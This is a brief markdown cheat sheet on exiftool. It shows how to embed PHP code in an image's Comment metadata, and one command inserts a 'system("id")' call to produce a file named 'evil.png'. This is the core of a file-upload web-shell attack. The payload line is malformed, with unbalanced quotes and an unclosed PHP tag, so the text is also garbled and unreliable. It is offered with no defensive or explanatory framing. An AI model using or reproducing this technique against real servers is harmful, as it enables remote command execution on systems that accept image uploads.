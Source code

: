 ```yaml
---
layout: app
title: "Exiftool"
tags: ["exiftool","metadata"]
---
```


# Embebed PHP code into image file

```bash
exiftool -Comment='[PHP_CODE]' original_image.jpg -o outputimage.png
```

# Run id linux command

```bash
exiftool -Comment="&lt;?php system("id"); original_image.png -o evil.png
```